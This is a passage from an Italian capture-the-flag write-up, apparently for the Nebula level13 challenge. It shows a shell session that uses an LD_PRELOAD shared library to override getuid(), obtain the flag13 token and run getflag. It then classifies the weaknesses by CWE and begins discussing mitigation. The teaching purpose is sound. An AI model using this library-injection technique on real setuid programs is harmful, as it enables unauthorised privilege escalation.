 \begin{enumerate}
    \item Copia di \texttt{/home/flag13/flag13}
    \item Creazione di una libreria condivisa
    \item Impostazione caricamento anticipato
    \item Ottenimento password utente \texttt{flag13}
    \item Autenticazione come utente \texttt{flag13}
    \item Esecuzione di \texttt{/home/flag13/flag13}
\end{enumerate}
Eseguiamo allora ciò che abbiamo preparato:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ cp /home/flag13/flag13
$ gcc -shared -fPIC -o getuid.so getuid.c
$ export LD_PRELOAD=./getuid.so
$ ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
$ /bin/getflag
You have successfully executed getflag on a target account
$ 
\end{lstlisting}
\end{mdframed}

\subsection{La vulnerabilità}
La vulnerabilità presente in \texttt{level13.c} si verifica solo se diverse debolezze sono presenti e sfruttate contemporaneamente.

\subsubsection{Debolezza 1}
Manipolando una variabile di ambiente (\texttt{LD\_PRELOAD}) si sostituisce \texttt{getuid()} con una funzione che aggira il controllo di autenticazione. La CWE di riferimento è la \textbf{CWE-426 - Untrusted Search Path}.

\subsubsection{Debolezza 2}
C'è un bypass dell'autenticazione tramite spoofing: l'attaccante può riprodurre in proprio il token di autenticazione di un altro utente. La CWE di riferimento è la \textbf{CWE-90 - Authentication Bypass by Spoofing}

\subsection{Mitigazione 1}
Ha senso ripulire la variabile di ambiente \texttt{LD\_PRELOAD} allo stesso modo di come si è fatto per \texttt{PATH} nella sfida level01? No: \texttt{LD\_PRELOAD} agisce prima del caricamento del programma. Nel momento in cui il processo esegue \texttt{putenv()} su \texttt{LD\_PRELOAD}, la funzione \texttt{getuid()} è già stata iniettata da tempo. Per convincerci di quanto appena detto, impostiamo \texttt{LD\_PRELOAD} alla stringa vuota: modifichiamo \texttt{level13.c} effettuando la pulizia della variabile di ambiente \texttt{LD\_PRELOAD}:

